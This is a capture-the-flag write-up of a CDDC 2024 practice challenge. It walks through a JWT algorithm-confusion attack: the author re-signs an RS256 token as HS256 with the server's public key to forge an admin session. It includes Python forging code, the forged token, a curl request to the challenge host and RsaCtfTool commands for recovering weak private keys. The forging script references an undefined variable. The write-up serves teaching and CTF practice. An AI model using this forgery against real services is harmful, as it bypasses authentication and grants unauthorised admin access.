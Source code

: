 ```yaml
---
description: >-
  The Main challenge is from CDDC 2024 Practice Practice round. Go try it first
  before you read this.
---
```


# JWT Challenge

We have learnt about JWT, but what about the attack of it?

## Can you compromise this?

{% file src="../../.gitbook/assets/web4_so_dizzy.zip" %}

If CDDC practice machine is still up, here is the initial site:&#x20;

{% embed url="http://47.128.156.184:10008/" %}

<figure><img src="../../.gitbook/assets/Pasted image 20240506225257.png" alt=""><figcaption></figcaption></figure>

There are 2 options, to check in via admin or guest, when we click on either, we see this:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506225244.png" alt=""><figcaption><p>A hint at the site you need to visit for token</p></figcaption></figure>

So visiting http://47.128.156.184:10008/getcookie will supply the user with a cookie:&#x20;

Guest Token:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g
```

Translates to:

```
Headers = {
  "alg": "RS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g"
```

We see the algo used was "RS256" which is RSA with SHA256, means the key is asymmetric.

We have a public key from http://47.128.156.184:10008/api/jwt

```
{"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"}
```

Public key:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP
ESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn
ZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG
cd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw
27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST
KU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v
LQIDAQAB
-----END PUBLIC KEY-----
```

Checking the source code they provided, this is how the server side validates token, so do you see what is wrong with it?&#x20;

There is no validation!

If anything is modified on the algo section of the Headers, the `jwt.decode` will process it using that algorithm, this vulnerability is important to note since we can technically just modify this field in the JWT using HMAC, resign the token with the public key, send it over, the server uses the public key to decrypt the signature, and see our information sent anyways.

### For more information along with mitigation:&#x20;

{% embed url="https://docs.authlib.org/en/latest/jose/jwt.html" %}

We also need to modify the user from user to admin, we can achieve this using simple python code as follows:

```python
from authlib.jose import jwt

# Your public key
public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"

def gentoken(key):
    header = {"alg": "HS256"}
    payload = {"user": "admin"}
    token = jwt.encode(header, payload, key)
    return token

token = gentoken(public_key_pseudo)
print(token)
```

The output will be this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY
```

Check with JWT burp extension to see if the signature is verified:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506212518.png" alt=""><figcaption><p>Using JSON web Tokens extension of Burpsuite, we can verify our token is working</p></figcaption></figure>

Extension:

{% embed url="https://github.com/portswigger/json-web-tokens" %}

Since it is verified, there should be no issue on the server side, we can curl it to see our flag:

```bash
curl --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY" http://47.128.156.184:10008/post/1
```

And bypassed!

&#x20;![](<../../.gitbook/assets/Pasted image 20240506212454 - Copy (1).png>)

## HMAC Attack

If the situation was different, and the token was just using HMAC from the start, getting a hold of the symmetric key would mean game over for the server, since we would already be able to resign the JWT and send it to the server.

## Small key RSA SHA256

If the public key was not as big as the current, the private key could possibly be recovered using the RsaCtfTool

We try to get the private key from the public key

```bash
git clone https://github.com/RsaCtfTool/RsaCtfTool.git
cd RsaCtfTool 
pip3 install -r requirements.txt

python3 RsaCtfTool.py --publickey ../public.pem --private
```

If it is recoverable, the private key will show:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506235237.png" alt=""><figcaption><p>Source: https://ctftime.org/writeup/30541</p></figcaption></figure>

Which you can use to resign the token after modification.

### Conclusion

It is important to use validation for all your methods with regards to authentication, and use of strong keys are recommended, and do not expose your keys easily.

#### Author: [`Ninjarku`](https://github.com/Ninjarku)

